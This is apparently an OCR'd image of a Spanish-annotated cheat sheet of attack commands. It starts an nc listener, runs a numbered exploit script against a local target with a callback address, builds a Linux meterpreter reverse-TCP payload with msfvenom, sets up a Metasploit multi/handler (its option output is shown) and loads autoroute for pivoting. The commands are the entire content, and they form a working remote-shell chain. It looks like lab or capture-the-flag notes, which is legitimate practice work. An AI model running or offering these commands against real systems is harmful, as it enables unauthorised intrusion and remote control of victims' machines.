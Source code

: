# $ nc -l -p 8081
# $ bash 50446.sh http://localhost:8080 172.17.0.1 8081 &
 
# $ msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f elf -o payload.bin
# OJO: meterpreter_ es stageless, mientras que meterpreter/ no --> https://buffered.io/posts/staged-vs-stageless-handlers/

# $ msfconsole
# > use /multi/handler
# msf6 exploit(multi/handler) > set payload linux/x64/meterpreter_reverse_tcp # https://www.infosecmatter.com/why-is-your-meterpreter-session-dying-try-these-fixes/
# msf6 exploit(multi/handler) > options
#
# Module options (exploit/multi/handler):
#
#    Name  Current Setting  Required  Description
#    ----  ---------------  --------  -----------
#
#
# Payload options (linux/x64/meterpreter_reverse_tcp):
#
#    Name   Current Setting  Required  Description
#    ----   ---------------  --------  -----------
#    LHOST  172.17.0.1       yes       The listen address (an interface may be specified)
#    LPORT  4444             yes       The listen port
#
#
# Exploit target:
#
#    Id  Name
#    --  ----
#    0   Wildcard Target


# > use post/multi/manage/autoroute